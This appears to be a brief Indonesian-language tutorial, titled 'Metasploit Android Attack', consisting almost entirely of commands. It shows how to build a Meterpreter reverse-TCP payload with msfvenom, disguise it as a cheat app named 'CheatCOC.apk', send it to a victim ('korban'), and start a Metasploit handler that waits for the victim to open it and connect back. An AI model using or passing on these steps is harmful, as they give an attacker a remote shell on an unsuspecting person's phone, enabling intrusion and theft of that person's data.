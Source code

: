 # Metasploit
Android Attack

$ sudo apt update

$ sudo apt upgrade

$ ifconfig (untuk mengetahui ip)

$ sudo su (masuk ke menu root)

Membuat payload dengan perintah

# msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.111.61(ip yang di cek tadi) LPORT=4321 R> CheatCOC.apk

tunggu dan jika sudah selesai cek aplikasi yang sudah di buat tadi di folder /home/kali

kemudian kirim aplikasi ke target/korban

buat exploit handler dengan perintah

# etc/init.d/postgresql start

# msfconsole

# use multi/handler

# set payload android/meterpreter/reverse_tcp

# set LHOST 192.168.111.61

# set LPORT 4321

# exploit

kemudian tunggu target/korban membuka aplikasi yang sudah di kirim tadi

